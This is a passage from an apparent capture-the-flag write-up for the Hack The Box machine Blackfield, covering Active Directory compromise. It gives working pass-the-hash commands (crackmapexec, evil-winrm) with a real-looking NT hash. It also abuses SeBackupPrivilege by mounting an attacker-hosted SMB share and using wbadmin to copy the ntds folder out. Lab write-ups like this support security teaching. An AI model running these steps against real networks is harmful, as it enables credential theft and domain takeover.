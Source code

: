 There are NT hashes for the users _Administrator_ and _svc_backup_.
By using a **Pass-The-Hash** attack, it is not necessary to crack the hashes but instead authenticate directly with them:
```
crackmapexec winrm 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

WINRM       10.10.10.192    5985   DC01       [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

The hash of _svc_backup_ works and it is possible to use the **WinRM** service with **Evil-WinRM** to get a shell on the box:
```
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

## Privilege Escalation

When looking at the privileges of the user _svc_backup_, the user has two important privileges:
```
whoami /all

SeBackupPrivilege         Back up files and directories  Enabled
SeRestorePrivilege        Restore files and directories  Enabled
```

These privileges are used to backup and restore files and can be abused to obtain files that are normally not readable for the user.

Starting a SMB server on our local client to backup files there:
```
impacket-smbserver -smb2support -user testuser -password SomePassword1 MyShare $(pwd)
```

Mounting the SMB share on the box:
```
net use x: \\10.10.14.9\MyShare /user:testuser SomePassword1
```

Using **wbadmin** on Windows to backup the _C:/Windows/ntds_ folder:
```
echo y | wbadmin start backup -backuptarget:\\10.10.14.9\MyShare -include:C:\Windows\ntds
```
```
A backup cannot be done to a remote shared folder which is not hosted on a volume formatted with NTFS/ReFS.
```

Unfortunately it can only backup to a NTFS mounted device, so lets create one on our local client and mount it.

### Creating NTFS Mount & Restoring Active Directory Database

Creating a NTFS partition file with `dd`:
```
dd if=/dev/zero of=ntfs.disk bs=1024M count=2

losetup -fP ntfs.disk
```
